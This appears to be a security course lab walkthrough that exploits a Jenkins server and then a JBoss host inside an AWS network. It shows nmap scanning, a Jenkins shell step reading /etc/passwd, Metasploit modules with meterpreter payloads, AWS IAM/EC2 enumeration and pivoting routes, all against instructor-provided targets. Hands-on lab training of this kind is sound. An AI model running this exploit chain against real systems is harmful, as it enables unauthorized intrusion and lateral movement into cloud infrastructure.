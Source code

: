 # Lab 2

**Table of Contents**

- [Enumeration](##enumeration)
- [Exploiting Jenkins Manually](##exploiting-jenkins-manually)
- [Introducing Metasploit](##introducing-metasploit)
- [Exploiting Jenkins with Metasploit](##exploiting-jenkins-with-metasploit)
- [Pivot/Penetrate](##pivot/penetrate)

# Title

In this lab, we will be exploiting a popular Build Platform and use it to pivot deeper into the network.

*Resources:*

- [https://nmap.org/book/man.html](https://nmap.org/book/man.html)
- [https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
- [http://docs.aws.amazon.com/cli/latest/](http://docs.aws.amazon.com/cli/latest/)

---

## Enumeration

Find a vulnerable host.

1. Install Nmap.

  ```
$ sudo yum -y install nmap
  ```

2. Port scan a vulnerable host.

  ```
$ nmap -PN -p8080 -sV 52.39.125.179
  ```

## Exploiting Jenkins Manually

1. Load `http://52.39.125.179:8080` on your browser.

2. Select `New Item`, enter your student ID under `Item name` and select `Freestyle project`. Click `OK`.

3. Under `Build`, click `Add a build step`, select `Execute shell`. In the `Command` text box enter `cat /etc/passwd` and click `Save`.

4. Select `Build Now`, then click the last `Build History` job and click `Console Output`. What do you see? Would you put this host on the internet as is?

5. Go back to your project and click `Configure` run other commands such as `whoami`, `pwd` and `ps` to familiarize yourself with this host. What flavor of linux is this? What packages are installed?


## Introducing Metasploit

1. Install Metasploit.

  Download and extract the Metasploit package from the DSO bucket: `dso-public-bucket`

  ```
$ curl -O https://s3-us-west-2.amazonaws.com/dso-public-bucket/metasploit-framework-master.zip
$ unzip metasploit-framework-master.zip
  ```

  Alternatively clone the Metasploit Git project directly.

  ```
$ git clone https://github.com/rapid7/metasploit-framework.git
  ```

2. Install dependencies and run `msfconsole`.

  ```
$ cd metasploit-framework-master
$ sudo yum -y install libpcap-devel postgresql-devel libsqlite3-dev sqlite-devel
$ bundle install
$ ./msfconsole

# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v4.12.10-dev                         ]
+ -- --=[ 1556 exploits - 902 auxiliary - 268 post        ]
+ -- --=[ 438 payloads - 38 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf >
  ```

## Exploiting Jenkins with Metasploit

1. Search for the Jenkins-CI Script-Console Java Execution exploit. You can do this using the `search` keyword.

2. Configure the exploit for use.

  In the example below we are using TCP port 10001 to create a listener (`LPORT`). Please contact the instructor to see which port you should be using.

  ```
> use exploit/multi/http/jenkins_script_console
> show options
> set RHOST 52.39.125.179
> set RPORT 8080
> set TARGETURI /
> set target 1
> set payload linux/x86/meterpreter/bind_tcp
> set LPORT 10001
  ```

2. Exploit the target and run the shell.

  ```
> exploit
> shell
  ```

3. Run the AWS CLI to determine if this host has IAM permissions.

  ```
$ aws iam list-users --region us-west-2
  ```

4. Since this host does not have IAM privileges, let's find a host that does.

  Run the AWS CLI to determine the IP address of another host that may have an overly permissive instance profile/role.

  ```
$ aws ec2 describe-instances --region us-west-2
  ```

  Is that shot of JSON to the eye? Try filtering the results, like this:

  ```
aws ec2 describe-instances --region us-west-2 --filters Name=iam-instance-profile.arn,Values=arn:aws:iam::717986480831:instance-profile/dso-overly-permissive
  ```

  Make note of this host's IP address. This is target 2.

  Throw the shell into the background by pressing `ctrl-z`, followed by `y` and `ENTER`. Also throw the Meterpreter shell into the background by again pressing `ctrl-z`, followed by `y` and `ENTER`. Then list your sessions.

  ```
> sessions
  ```

  Make note of the session ID, e.g., `1`.

## Pivot/Penetrate

1. Add a route to pivot to a host that is deeper inside the network (target 2).

  E.g.,

  ```
> route add 10.0.6.0 255.255.255.0 1
> route print
  ```

2. Scan the host you discovered for vulnerabilities.

  ```
> use auxiliary/scanner/http/jboss_vulnscan
> show options
> set RHOSTS 10.0.6.165
> set RPORT 8080
> show options
> run
  ```

2. Search for the JBoss DeploymentFileRepository WAR Deployment exploit. E.g., `search JMXInvokerServlet`.

3. Configure the exploit.

  Use this formula to determine the value for `LPORT`. `LPORT = 10000 + Student ID number`. So, student 1, `LPORT` would be `10001`.

  ```
> use exploit/multi/http/jboss_invoke_deploy
> set RHOST 10.0.6.165
> set target 1
> set payload java/meterpreter/bind_tcp
> set LPORT 10001
> exploit
  ```

4. Run the AWS CLI to determine if this host has IAM permissions.

  ```
> shell
python -c 'import pty; pty.spawn("/bin/bash")'
$ export http_proxy=http://proxy:3128
$ export https_proxy=http://proxy:3128
$ aws iam list-users --region us-west-2
  ```

  What does this mean?
